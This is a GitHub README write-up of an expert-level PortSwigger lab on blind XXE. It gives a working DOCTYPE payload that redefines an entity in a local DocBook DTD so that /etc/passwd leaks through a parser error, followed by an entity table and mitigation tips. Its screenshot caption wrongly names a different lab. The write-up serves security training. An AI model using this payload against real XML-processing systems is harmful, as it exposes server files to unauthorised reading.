 
### 📁 `README.md` — Exploiting XXE by Repurposing a Local DTD (Expert Level)

# 🔥 Exploiting Blind XXE by Repurposing a Local DTD

**🧪 Lab Level:** Expert  
**🔐 Vulnerability:** Blind XXE via local DTD repurposing and error-based data leak  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Leak `/etc/passwd` by referencing and redefining an existing local DTD entity to trigger an error message containing sensitive data.

---

## 🔍 Lab Overview

The application parses XML input in a "Check stock" feature but does **not display the parsed output**.

The key is to use a **hybrid internal-external DTD attack** by referencing an existing DTD file on the server (`/usr/share/yelp/dtd/docbookx.dtd`) which defines an entity called `ISOamso`.  
By redefining this entity internally, you can bypass the usual XML parser restrictions and trigger an error message that leaks `/etc/passwd`.

---

## ⚙️ Exploitation Steps

### 1. 🕵️ Intercept the Request

On a product page, click **“Check stock”**, and intercept the POST request in Burp Suite.

---

### 2. 📥 Inject the Malicious DTD Declaration

Replace or insert the following DOCTYPE declaration **between** the XML declaration and `<stockCheck>` element:

```xml
<!DOCTYPE message [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/%file;&#x27;>">
    %eval;
    %error;
  '>
  %local_dtd;
]>
````

## 📸 Screenshots

Here are some screenshots demonstrating the successful exploitation of the XXE via SVG image upload lab:

![XXE](https://github.com/Kabilala/xxe/blob/main/lab9/lab9.png)


---

### 3. 📡 Trigger the Payload

Send the modified XML request.

What happens:

* The external DTD (`docbookx.dtd`) is loaded from the local filesystem
* The `ISOamso` entity is redefined internally to include an error-triggering entity that tries to load a non-existent file path containing the contents of `/etc/passwd`
* The parser throws an error message containing the contents of `/etc/passwd` in the error text

---

## 🧠 Technical Explanation

| Entity Name        | Purpose                                                              |
| ------------------ | -------------------------------------------------------------------- |
| `%local_dtd`       | Loads the external DTD file locally from server filesystem           |
| `%ISOamso`         | Redefines the existing entity to execute the error-based XXE payload |
| `%file`            | Reads the sensitive file `/etc/passwd`                               |
| `%eval` & `%error` | Triggers an invalid file inclusion to force an error leak            |

This hybrid approach circumvents the XML spec limitation on nested parameter entities by leveraging a local external DTD file.

---

## 🔐 Mitigation Tips

* Disable or restrict **external DTD loading** on XML parsers
* Use **secure XML parsing libraries** with DTD and entity expansion disabled
* Monitor logs for abnormal error messages or excessive file access attempts
* Implement strong **input validation** and **least privilege** for XML processing

---